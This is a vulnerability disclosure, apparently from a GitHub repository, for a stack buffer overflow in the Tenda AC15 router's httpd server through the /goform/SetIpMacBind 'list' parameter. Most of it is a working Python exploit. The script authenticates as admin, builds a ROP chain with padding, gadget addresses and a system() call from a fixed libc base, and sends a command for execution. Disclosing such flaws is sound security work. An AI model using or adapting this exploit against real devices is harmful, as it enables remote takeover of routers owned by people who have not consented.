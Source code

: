 Vendor of the products:　Tenda 

Reported by: 　　　　　     zhlu32@126.com

Affected products:　　　AC15 V15.03.05.18_multi

# Overview
An issue was discovered on Tenda AC15 V15.03.05.18_multi device. There is a buffer overflow vulnerability in the router’s web server – httpd. While processing the **/goform/SetIpMacBind** list parameter for a post request, the value is directly used in a strcpy to a local variable placed on the stack, which overrides the return address of the function. The attackers can construct a payload to carry out arbitrary code attacks.

# Exp

    import requests
    from urllib import parse
    from pwn import *
    
    main_url = "http://172.16.211.18:20080"
    
    def login_success():
        global password
        url = main_url + "/login/Auth"
        headers = {'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8'}
        data = {"username": "admin", "password": "ce80adc6ed1ab2b7f2c85b5fdcd8babc"}
        data = parse.urlencode(data)
    
        response = requests.post(url=url, headers=headers, data=data, allow_redirects=False)
        password = response.cookies.get_dict().get("password")
        if password is None:
            login_success()
        else:
            print(password)
    
    
    def poc():
        url = main_url + "/goform/SetIpMacBind"
    
        cmd = b'echo yab.....'
        libc_base = 0x40202000
        system_offset = 0x0005a270
        system_addr = libc_base + system_offset
        gadget1 = libc_base + 0x00018298
        gadget2 = libc_base + 0x00040cb8
    
        data = b'bindnum=1&list=' + b'A' * (428) + p32(gadget1) + p32(system_addr) + p32(gadget2) + cmd
        data = data.decode('latin1')
    
        headers = {'Cookie': 'password=' + password}
        response = requests.post(url=url, headers=headers, data=data, allow_redirects=False)
        print(response)
    
    
    if __name__ == "__main__":
        login_success()
        poc()


# Vul Details
## code in httpd
![avatar](img/code.png)
## Attack effect
![avatar](img/effect.png)
